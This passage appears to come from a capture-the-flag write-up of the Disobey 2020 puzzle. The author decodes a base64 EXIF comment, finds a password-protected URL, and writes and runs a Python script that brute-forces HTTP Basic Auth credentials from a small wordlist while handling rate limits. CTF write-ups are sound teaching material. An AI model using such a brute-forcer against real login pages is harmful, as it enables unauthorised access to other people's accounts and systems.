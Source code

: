 ```
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1600x1200
Megapixels                      : 1.9
```

Exiftool shows some interesting info about the photo. Comment has some URL on it and it has base64 after it.

```
 whois@cypher → ~/Disobey2020 → echo "Q2FuJ3QgVG91Y2ggVGhpcw==" |base64 -d
Can't Touch This
 whois@cypher → ~/Disobey2020 → curl https://db.0n.fi/
<html>
<head><title>401 Authorization Required</title></head>
<body bgcolor="white">
<center><h1>401 Authorization Required</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>

```

Oh... It's hammer time... The site seems to be alive. HTTP 401 is telling us we need to authenticate first. As we already know some words, lets put them on the list and bruteforce!

```
 whois@cypher → ~/Disobey2020 → cat words.txt
mehram
hammer
MEHRAM
HAMMER
Can't Touch This
Q2FuJ3QgVG91Y2ggVGhpcw==
```

I wrote a little python script for the bruteforce. It's not beautiful but it's working. But actually it's AI as it has multiple if statements... :D


```
 whois@cypher → ~/Disobey2020 → cat bruteforcer.py 
import requests
import sys
import time

filetoopen=sys.argv[1]

with open(filetoopen,"r") as usernames:
  for l1 in usernames:
    with open(filetoopen, "r") as passwords:
      for p1 in passwords:
        username = l1.replace('\n', '')
        password = p1.replace('\n', '')
        while True:
          r = requests.get("https://db.0n.fi/", auth=(username, password))
          if(r.status_code==429):
            time.sleep(1)
            continue
          if(r.status_code!=401):
            print("[+] Working creds found: %s:%s" % (username, password))
            sys.exit(1)
          if(r.status_code==401):
            print("[-] Incorrect: %s:%s" % (username, password))
            break

 whois@cypher → ~/Disobey2020 → python3 bruteforcer.py words.txt          
[-] Incorrect: mehram:mehram
```